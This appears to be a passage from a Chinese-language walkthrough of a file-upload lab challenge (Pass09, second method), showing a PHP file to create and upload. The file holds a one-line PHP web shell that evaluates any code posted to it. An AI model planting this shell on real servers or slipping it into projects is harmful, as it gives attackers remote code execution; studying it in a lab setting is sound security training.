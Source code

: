 

### 方法二

+ 编辑脚本<code>NinethSecondMethod.php</code>

~~~ shell
<?php @eval($_POST['NineSecond']); ?>
~~~

![Pass09_4](./img/Pass09_4.png)



+ 上传文件<code>NinethSecondMethod.php</code>

![Pass09_11](./img/Pass09_11.PNG)
